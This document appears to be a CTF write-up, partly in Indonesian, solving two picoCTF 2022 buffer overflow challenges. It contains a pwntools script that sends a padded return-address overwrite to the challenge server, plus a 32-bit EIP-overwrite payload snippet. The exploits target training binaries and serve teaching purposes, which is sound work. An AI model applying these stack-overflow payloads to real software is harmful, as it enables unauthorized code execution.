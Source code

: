 
### x-sixty-what
sumber: https://prfalken.org/index.php/2022/03/29/picoctf-2022-x-sixty-what/
gets() Reads characters from the standard input (stdin) and stores them as a C string into str until a newline character or the end-of-file is reached. 

As suggested in the **2nd hint**, we **should try to jump** to the **instruction after the push**, instead of the first instruction of the function (believe me, if you jump on the first one, you’ll get weird segmentation faults).
The address we **want to jump** is then **0x40123b**
Also remember that in 64bits, registers are 8 bytes, and that we needed 64 bytes + 8 bytes to overwrite RBP.
But we want to overwrite the return address which right above in the stack, so we need : (64 + 8) bytes to fill the reserved space + 8 bytes for the address we want to jump to in little endian (000000003b1240).
```python
from pwn import *

p = remote('saturn.picoctf.net', 62617)


payload = b'A'*72 + b'\x3b\x12\x40\x00\x00\x00\x00\x00'

print(p.recvline().decode())
p.sendline(payload)
print(p.recv().decode())
```
### buffer overflow 2
Pertama kita akan menggenerate payload untuk mengubah EIP dari "main" agar nantinya return address dari main bisa *jump* ke address dari fungsi "jump"
```python
winAddress = 0x0804929a
ebx = b"AAAA"
ebp = b"AAAA"
eip = struct.pack('<I', winAddress)
payload = b"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ"+ebx+ebp+eip
```

```sh
echo "flag{test}" > flag.txt
```
